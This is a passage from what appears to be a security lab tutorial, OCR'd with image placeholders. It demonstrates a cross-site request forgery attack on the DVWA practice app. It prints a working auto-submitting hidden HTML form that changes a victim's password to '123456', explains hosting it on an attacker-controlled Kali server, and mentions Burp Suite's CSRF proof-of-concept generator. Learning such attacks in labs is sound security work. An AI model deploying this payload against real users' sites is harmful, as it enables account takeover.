 Lets change something in code

We can see in code there is ‘#’ in action which don’t allow to redirect the page lets change it to the original website link

Still our web page ask for user to change the password it won’t change the password according to attacker.

For this we need to add hidden argument in all input parameter.

Remove the type=”password” and give the value to set the password which we want value=”123456”

<form id=form1 action="http://192.168.1.105/vulnerabilities/csrf/" method="GET">    

`    `<input type="hidden" value="123456" autocomplete="off" name="password\_new"><br>



`    `<input type="hidden" value="123456" autocomplete="off" name="password\_conf">



`    `<input type="hidden" value="Change" name="Change">

`    `</form>

<script>document.getElementById('form1').submit();</script>    

` `Our code is ready know, save it .

But we can’t send user html file and ask him to open it.

For this we have to save this file to own server. For server we use kali server.

So our link will be :- <http://192.168.1.178/csrf.html>

As soon as user enter this link password will be changed.

![](Aspose.Words.c26f63e3-5a21-43e8-831a-96dedae1093f.009.png)

We can see this image.

We can do this burp which itself create csrf html whatever we did here manually, burp can do it  in very few second.

Interecept the web page while changing the password, form burp in intercept left click> engagement tool> generate csrf POC> select option > tick the auto submit> regenerate> . know this html also do the same activity what we did manually.

But here is a problem only professional burp suit gives you this option to do.




![](Aspose.Words.c26f63e3-5a21-43e8-831a-96dedae1093f.018.png)

![](Aspose.Words.c26f63e3-5a21-43e8-831a-96dedae1093f.019.png)

We can see the image and get understand what is happening.





